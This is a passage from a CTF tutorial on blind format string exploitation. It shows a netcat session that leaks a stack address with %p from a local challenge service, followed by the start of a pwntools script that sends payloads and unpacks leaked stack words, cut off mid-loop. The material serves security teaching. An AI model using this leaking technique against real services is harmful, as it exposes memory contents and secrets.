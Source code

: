 
Since I didn&#39;t find the source code after the game, I simply constructed two questions.


### Example 1 - Leaking Stack


Both the source and deployment files are placed in the corresponding folder [fmt_blind_stack] (https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/fmtstr/blind_fmt_stack).


#### Determine the number of programs


We randomly entered %p and the program echoed the following information.


```shell

➜  blind_fmt_stack git:(master) ✗ nc localhost 9999

%p

0x7ffd4799beb0

G�flag is on the stack%                          

```



Tell us that the flag is on the stack and that the program is 64-bit and that there should be a format string vulnerability.


#### Use


Then let&#39;s take a little test and see


```python

from pwn import *

context.log_level = 'error'





def leak(payload):

    sh = remote('127.0.0.1', 9999)

    sh.sendline(payload)

    data = sh.recvuntil('\n', drop=True)

    if data.startswith('0x'):

        print p64(int(data, 16))

    sh.close()





i = 1

while 1:
```